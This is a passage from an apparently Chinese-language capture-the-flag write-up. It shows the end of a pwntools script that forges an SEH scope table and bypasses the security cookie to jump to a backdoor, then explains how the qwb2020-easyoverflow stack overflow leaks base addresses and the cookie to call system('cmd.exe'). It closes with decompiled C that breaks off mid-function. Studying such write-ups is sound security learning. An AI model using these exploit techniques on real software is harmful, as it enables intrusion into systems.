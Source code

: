 ```py
    0,
    0xFFFFFFFE,
    back_door
    ])
'''
fake_scope =flat([
    0x0FFFFFFE4,
    0,
    0x0FFFFFF20,
    0,
    0x0FFFFFFFE,
    back_door,
    back_door
    ])
payload = 'a'*0x10+fake_scope.ljust(0x9c-0x1c-0x10,'a')
payload += p32(gs)+'c'*0x8+flat([
    next_p,#ebp-0x10
    except_handler,
    (stack_addr+0x10) ^ security_cookie,
    0
    ])

p.recvuntil("Do you want to know more?")
p.sendline("noo")
p.sendline(payload)
p.recvuntil("Do you want to know more?")
p.sendline("yes")
p.recvuntil("Where do you want to know\r\n")
p.sendline("0")
p.interactive()
```

## qwb2020-easyoverflow

### 程序逻辑 && 漏洞利用

程序没有开CFG，有栈溢出，可以leak三次数据。

由于win的地址随机化的原因，我们先leak出pe_base/ntdll_base，然后leak gs，利用栈溢出的rop将security_cookie泄露出来进而异或得到rsp栈地址，注意此时pop rbx=1可以重复进行rop，再二次溢出根据read@iat得到ucrtdll_base，第三次溢出执行system("cmd.exe")。

win x64的前四个参数寄存器为rcx rdx r8 r9。

注意后面溢出的时候rsp值改变，相应的gs值也要修改为new_rsp ^ security_cookie。

```c
__int64 main_func()
{
  FILE *v0; // rax
  FILE *v1; // rax
  FILE *v2; // rax
  signed int v3; // ebx
  char Dst; // [rsp+20h] [rbp-118h]

  v0 = (FILE *)_acrt_iob_func(0i64);
  setbuf(v0, 0i64);
  v1 = (FILE *)_acrt_iob_func(1i64);
  setbuf(v1, 0i64);
  v2 = (FILE *)_acrt_iob_func(2i64);
  setbuf(v2, 0i64);
  v3 = 3;
  do
  {
    --v3;
```